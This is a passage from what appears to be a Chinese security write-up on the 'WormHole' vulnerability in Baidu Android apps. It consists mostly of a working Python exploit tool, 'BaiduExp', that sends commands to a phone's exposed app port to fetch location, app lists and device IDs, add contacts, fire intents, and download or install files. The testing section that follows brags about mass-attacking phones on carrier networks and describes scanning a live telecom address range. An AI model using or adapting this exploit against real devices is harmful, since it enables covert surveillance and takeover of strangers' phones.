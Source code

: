 ```python
                self.payload['apkfilelength'] = ll.argv[1]
                self.payload['apkfilename'] = ll.argv[2]
                self.payload['apkpackagename'] = ll.argv[3]
            try:
                r = requests.get(url, params = self.payload, headers = self.headers, timeout=10) 
                print r.status_code, r.url
                return r.text
            except Exception as e:
                return e
def main():
    usage ='''
       BaiduExp:  Exploiting baidu Android App for its unauthorized interface!

        usage: %prog -c [cmd] -p [param1[,param2]...] [ip] [port]
        cmd including:
            geolocation, getsearchboxinfo, getapn, getserviceinfo, getpackageinfo, sendintent, getcuid, getlocstring, scandownloadfile, addcontactinfo, getapplist, downloadfile, uploadfile
        cmd with params:
            sendintent -p [intent uri]
            addcontactinfo -p [usrname],[phone number]
            getpackageinfo -p [package name]
            downloadfile -p [download or query],[downloadurl],[savepath])
            uploadfile -p [filename],[install_type(onlyroot,all)]
            scandownloadfile -p [intent],[apkfilelength],[apkfilename],[apkpackagename]
        for example: python %prog  -c sendintent -p http://www.sina.com  192.168.1.150 6259'''

    parser = OptionParser(usage)
    parser.add_option("-c", "--cmd", action="store", type="choice", dest="command", choices=BaiduExp.commands)
    parser.add_option("-p", "--params", action="store", type="string", dest="params", help="parameters for specific command") 
    parser.add_option("-R", action="store_true", dest="CapitalizedReferer", default=False, help="Set payload's Referer of referer") 
    (options, args) = parser.parse_args()
    if(len(args) != 2): 
        parser.error("Should set [ip] [port] of target!")
    else:
        (ip, port) = tuple(args)
        fuckbd = BaiduExp(ip,port,options.CapitalizedReferer)
        print fuckbd.sendpayload(options.command,options.params)

if __name__=='__main__': 
    main()	
```
## 0x04 测试

简单测试了一下WormHole这个漏洞的影响性，我们知道3G/4G下的手机其实全部处于一个巨大无比的局域网中，只要通过4G手机开个热点，就可以用电脑连接热点然后用扫描器和攻击脚本对全国甚至全世界连接了3G/4G的手机进行攻击。在家远程入侵一亿台手机不再是梦。

我们使用获取包名的脚本，对电信的下一个 C 段进行了扫描，结果如下：
